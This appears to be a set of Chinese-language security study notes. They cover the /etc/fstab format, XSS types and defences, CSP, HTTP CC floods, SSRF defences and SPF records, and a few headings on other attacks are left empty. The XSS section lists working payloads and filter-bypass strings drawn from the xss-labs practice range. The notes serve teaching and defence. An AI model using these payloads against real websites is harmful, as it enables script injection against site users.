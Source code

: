## /etc/fstab文件详解
任何硬件设备连接后，操作系统使用硬件，需要挂载。例如，Linux系统下， 每次挂载/dev/sr0(光盘设备文件)需要手动使用命令mount。当然，每次重启，开启时，硬盘一般也是被自动挂载的，而自动挂载的信息，就记录在/etc/fstab文件中。

系统每次启动都会读取/etc/fstab中的配置内容，自动挂载该文件中被记录的设备和分区。
/etc/fstab的内容如下:
```shell
UUID=4bd3dfe3-6be8-4971-b9bf-f8cd4d7a0c6c /                       ext4    defaults        1 1
UUID=909d7582-281c-4415-b679-8968e518821b /app                    ext4    defaults        1 2
UUID=051c003c-2cef-4115-bc1c-525759174a77 /boot                   ext4    defaults        1 2
UUID=b530db70-89ec-454d-96df-ad291205804f swap                    swap    defaults        0 0
tmpfs                   /dev/shm                tmpfs   defaults        0 0
devpts                  /dev/pts                devpts  gid=5,mode=620  0 0
sysfs                   /sys                    sysfs   defaults        0 0
proc                    /proc                   proc    defaults        0 0
/dev/sr0                /media/dvd1             iso9660 defaults 
```
|参数|说明|举例|
|:------|:------|:------|
|设备文件名或UUID或label|使用**设备文件名**会在当前生效，可能在系统重启之后会出现问题；**label**在系统重启之后也会生效，但是要实时注意该设备的label；**UUID**是分区的唯一标识。|UUID=4bd3dfe3-6be8-4971-b9bf-f8cd4d7a0c6c|
|设备的挂载点|空目录|/|
|该分区文件系统的格式|可以使用特殊的参数auto，自动识别分区的分区格式|ext4|
|文件系统的参数|设置格式的选项|defaults|
|dump备份的设置|0表示不进行dump备份，1代表每天进行dump备份，2代表不定日期的进行dump备份|1|
|磁盘检查设置|检查顺序，0代表不检查，1代表第一个检查，2后续.一般根目录是1，数字相同则同时检查|2|

### 配置该文件的一些问题
dumpe2fs查看设备文件的label和UUID的方法：
> [root@centos6 ~]#dumpe2fs -h /dev/sda1

blkid可以查看sda1分区的UUID和label（详细信息）
> [root@centos6 ~]# blkid /dev/sr0 
/dev/sr0: LABEL="CentOS_6.9_Final" TYPE="iso9660"

# XSS
Cross Site Scripting(跨站脚本)
当目标网站目标用户浏览器渲染HTML文档的过程中，出现了不被预期的脚本指令并执行时，XSS就发生了。
最直接的例子：<script>alert(1)</script>

## 反射型
攻击者通过指定的方式诱惑被攻击者访问一个含恶意代码的URL，当点击链接时，恶意代码在电脑上执行。
```html
<script>
window.alert = function()
{
    confirm("完成的不错！");
    window.location.href="level2.php?keyword=test";
}
</script>
<!--keyword的赋值会回显到页面，浏览器响应xss poc，因此可以构造以下语句-->
<script>alert('XSS')</script>
```

## 存储型
存储型的攻击脚本被存储到了数据库或者文件中，服务端在读取了存储的内容回显了。这种情况下用户直接打开正常的页面就会看到被注入。常见的就是留言板XSS，用户提交一条包含XSS代码的留言保存到数据库，目标查看时就会触发以上一系列行为。
> 基本流程：
* 攻击方把恶意代码提交到网站
* 网站把XSS代码存到数据库
* 其他用户请求页面时，服务器把带有恶意代码的数据传到客户端
* 执行代码
* 完成攻击

## DOM XSS
基于文档对象模型(DOM,Document Object Model)的一种漏洞。如果DOM中的数据没有经过严格的确认，就会产生DOM XSS漏洞。
```html
<script>
function test(){
    var str = document.getElementById("text").value;
    document.getElementById("t").innerHTML = "<a href='"+str+"'>testLink</a>";
}
</script>
<div id="t"></div>
<input type="text" id="text" value="" />
<input type="button" id="s" value="ti jiao" onclick="test()" />
```
“ti jiao”按钮的onclick事件调用test()函数，在该函数中，修改了页面DOM节点，通过innerHTML把一段用户的输入当做HTML写入页面中，造成该漏洞。

## XSS防御手段
### 使用XSS filter
针对用户提交的数据进行有效的验证，只接受我们规定的长度或内容的提交，过滤掉其他的输入内容。比如：
* 表单数据指定值的类型：年龄只能是 int 、name 只能是字母数字等。
* 过滤或移除特殊的 html 标签：<script>、<iframe>等。
* 过滤 js 事件的标签：onclick、onerror、onfocus等。

### 编码转义
* 1.HTMLEncode，就是将字符转换成HTMLEntities，一般会转（&、<、>、"、'、/）这6个字 符。
* 2.JavaScriptEncode，是使用”\“对特殊字符进行转义。

### X-XSS-Protection设置
目前该属性被所有的主流浏览器默认开启XSS保护。该参数是设置在响应头中目的是用来防范XSS攻击的。它有如下几种配置：
值有如下几种：默认为1.
0：禁用XSS保护。
1：启用XSS保护。
1;mode=block; 启用xss保护，并且在检查到XSS攻击是，停止渲染页面。

### XSS 防御之 URL 编码
作用范围：将不可信数据作为 URL 参数值时需要对参数进行 URL 编码
编码规则：将参数值进行 encodeURIComponent 编码
编码代码如下：
```js
function encoding(str){
  return encodeURIComponent(str);
};
```

# XSS 防御之 CSS 编码
作用范围：将不可信数据作为 CSS 时进行 CSS 编码
比如：通过css构造（background-img:url\expression\link-href@import）
```css
<div style="background-image: url(javascript:alert('xss'));"></div>
<style>body{background-image: url("javascript:alert('xss')");}</style>
```
编码规则：除了字母数字字符以外，使用\XXXXXX格式来转义ASCII值小于256的所有字符。 

# XSS防御之javascript编码
在html中还存在很多支持协议解析的html属性，比如 onclick, onerror, href, src 等这些，类似这些属性我们是无法通过HTML编码来防范XSS攻击的。因为浏览器会先解析html编码的字符，将其转换为该属性的值，但是该属性本身支持JS代码执行，因此游览器在HTML解码后，对该属性的值进行JS解析，因此会执行响应的代码。

# CSP防御
Content-Security-Policy(网页安全政策)
通过 Content-Security-Policy 网页的开发者可以控制整个页面中外部资源的加载和执行。
在meta属性中设置：
```html
<meta http-equiv="Content-Security-Policy" content="
default-src http: https:  *.xiao.com 'self' 'unsafe-inline' ;
style-src 'self' 'unsafe-inline' *.xxx.com;
script-src 'self' 'unsafe-inline' 'unsafe-eval' ;
">
```
default-src(默认设置)：信任 http ,https协议资源，信任当前域名资源，信任符合*.xiao.com的域名资源
default-src 'self';
self = 端口，协议，域名相同则信任（允许）

## 常见payload构造
（主要依据xss-labs靶场进行构造）
对script标签进行一次移除操作(嵌套欺骗)：
```html
<scr<script>ipt>alert('xss')</scr<script>ipt>
```
script 标签可以用于定义一个行内的脚本或者从其他地方加载脚本：
```html
<script>alert("XSS")</script>
<script src="http://baidu.com"></script>
```
javascript事件
例如点击，页面加载，移动鼠标等
```html
< onfocus=javascript:alert('XSS') >
<div οnmοuseenter="alert('xss')">
　　<!--iframe标签-->
<iframe src="javascript:alert(1)">
　　<!--action-->
<form action="Javascript:alert(1)"><input type=submit>
<isindex action="javascript:alert(1)" type=image>
　　<!--大小写绕过-->
<sCRipt>alert(1)</sCript>
　　<!--双写绕过-->
<sscriptcript>alert('XSS')</sscriptcript>
```
编码绕过/特殊字符绕过
利用href属性引号中的内容可以使用空字符，空格，tab换行，注释，特殊的函数将代码隔开

## HTTP CC攻击
HTTP Flood俗称CC攻击(Challenge Collapsar)是DDOS(分布式拒绝服务)的一种。攻击者通过端口扫描程序在互联网上寻找匿名的 HTTP 代理或者 SOCKS 代理，攻击者通过匿名代理对攻击目标发起HTTP 请求。匿名代理服务器在互联网上广泛存在。因此攻击容易发起而且可以保持长期高强度的持续攻击，同样可以隐藏攻击者来源避免被追查。

**HTTP/CC攻击的特点：**
1. HTTP/CC攻击的ip都是真实的、分散的
2. HTTP/CC攻击的数据包都是正常的数据包
3. HTTP/CC攻击的请求都是有效请求，且无法拒绝
4. HTTP/CC攻击的是网页，服务器可以连接，ping也没问题，但是网页就是访问不了
5. 如果IIS一开，服务器很快就死，容易丢包。

Web 服务与 DNS 服务类似，也存在缓存机制。如果攻击者的大量请求命中了服务器缓存，那么这种攻击的主要作用仅体现在消耗网络带宽资源上，对于计算和 IO 资源的消耗是非常有限的。因此，高效的 HTTP/CC 攻击 应不断发出针对不同资源和页面的 HTTP 请求，并尽可能请求无法被缓存的资源（ 如关键词搜索结果、用户相关资料等 ），这样才能更好的加重服务器的负担，达到理想的攻击效果。当然 HTTP/CC 攻击 也会引起严重的连锁反应，不仅仅是直接导致被攻击的 Web 前端响应缓慢，还间接攻击到后端的 Java 等业务层逻辑以及更后端的数据库服务，增大它们的压力，HTTP/CC 攻击 产生的海量日志数据甚至会对日志存储服务器都带来影响。

## CC攻击防御
HTTP/CC 攻击 防御主要通过缓存的方式进行，尽量由设备的缓存直接返回结果来保护后端业务。当高级攻击者穿透缓存时，清洗设备会截获 HTTP 请求做特殊处理。因为CC攻击通过工具软件发起，而普通用户通过浏览器访问，这其中就会有某些区别。想办法对这二者作出判断，选择性的屏蔽来自机器的流量即可。

> https://blog.csdn.net/qq_34777600/article/details/81978262

## SSRF 防御
服务端请求伪造(Server-Side Request Forgery),指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。SSRF攻击通常针对外部网络无法直接访问的内部系统。
> https://zhuanlan.zhihu.com/p/91819069
**防御方法**
1. 过滤返回的信息，如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。
2. 统一错误信息，避免用户可以根据错误信息来判断远程服务器的端口状态。
3. 限制请求的端口，比如80,443,8080,8090。
4. 禁止不常用的协议，仅仅允许http和https请求。可以防止类似于file:///,gopher://,ftp://等引起的问题。
5. 使用DNS缓存或者Host白名单的方式。

## SPF
SPF是为了防范垃圾邮件而提出来的一种DNS记录类型，它是一种TXT类型的记录，它用于登记某个域名拥有的用来外发邮件的所有IP地址。
SPF是一种以IP地址认证电子邮件发件人身份的技术，是非常高效的垃圾邮件解决方案，接收邮件方收到电子邮件的时候会首先检查发送者域名的SPF记录，来确定发件人的IP地址是否被包含在SPF记录里面，如果在，就认为是一封正确的邮件，否则会认为是一封伪造的邮件进行退回。
在新网解析的企业邮箱用户SPF都是由新网运营商统一设置，无需客户进行配置。不在新网解析的用户请联系您域名的DNS提供商去设置。
检查 spf（TXT）记录是否存在的执行方法：
1、进入命令状态；（开始菜单 - 运行 - CMD[回车]）；
2、输入命令" nslookup -q=txt 您的域名 "，查看返回的结果与设置的是否一致即可

## 票据传递（Pass The Ticket）攻击与利用

## HTTP request smuggling(HTTP协议走私)
HTTP请求走私是一种干扰网站处理从一个或多个用户接收的HTTP请求序列的方式的技术。请求走私漏洞在本质上通常是至关重要的，允许攻击者绕过安全控制，获得对敏感数据的未经授权的访问，并直接危害其他应用程序用户。

## kerberos-AS-REQ

## PHP　webshell
webshell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WEB目录下正常的网页文件混在一起，然后就可以使用浏览器来访问asp或者php后门，得到一个命令执行环境，以达到控制网站服务器的目的。
